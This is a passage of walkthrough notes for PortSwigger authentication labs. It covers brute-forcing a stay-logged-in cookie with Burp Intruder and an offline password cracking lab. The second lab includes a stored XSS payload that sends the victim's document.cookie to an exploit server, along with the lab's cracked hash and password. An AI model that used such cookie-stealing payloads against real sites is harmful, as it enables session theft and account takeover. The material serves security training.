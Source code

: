 7. As the Update email button is only displayed when you access the ``/my-account`` page in an authenticated state, we can use the presence or absence of this button to determine whether we've successfully brute-forced the cookie. On the Options tab, add a grep match rule to flag any responses containing the string ``Update email``. Start the attack.
8. Notice that the generated payload was used to successfully load your own account page. This confirms that the payload processing rules work as expected and you were able to construct a valid cookie for your own account.
9. Make the following adjustments and then repeat this attack:
- Remove your own password from the payload list and add the list of candidate passwords instead.
- Change the Add prefix rule to add ``carlos:`` instead of ``wiener:``.
10. When the attack is finished, the lab will be solved. Notice that only one request returned a response containing ``Update email``. The payload from this request is the valid ``stay-logged-in`` cookie for Carlos's account.

## Offline password cracking
### Reference: [PortSwigger: Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)


### Solution
1. With Burp running, use your own account to investigate the "Stay logged in" functionality. Notice that the ``stay-logged-in`` cookie is Base64 encoded.
2. In the Proxy > HTTP history tab, go to the Response to your login request and highlight the ``stay-logged-in`` cookie, to see that it is constructed as follows:
```
username+':'+md5HashOfPassword
```
3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS.
4. Go to the exploit server and make a note of the URL.
5. Go to one of the blogs and post a comment containing the following stored XSS payload, remembering to enter your own exploit server ID:
```
<script>document.location='//your-exploit-server-id.web-security-academy.net/'+document.cookie</script>
```
6. On the exploit server, open the access log. There should be a GET request from the victim containing their ``stay-logged-in`` cookie.
7. Decode the cookie in Burp Decoder. The result will be:
```
carlos:26323c16d5f4dabff3bb136f2460a943
```
8. Copy the hash and paste it into a search engine. This will reveal that the password is ``onceuponatime``.
9. Log in to the victim's account, go to the "My account" page, and delete their account to solve the lab.

## Password reset broken logic
### Reference: [PortSwigger: Password reset broken logic](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)
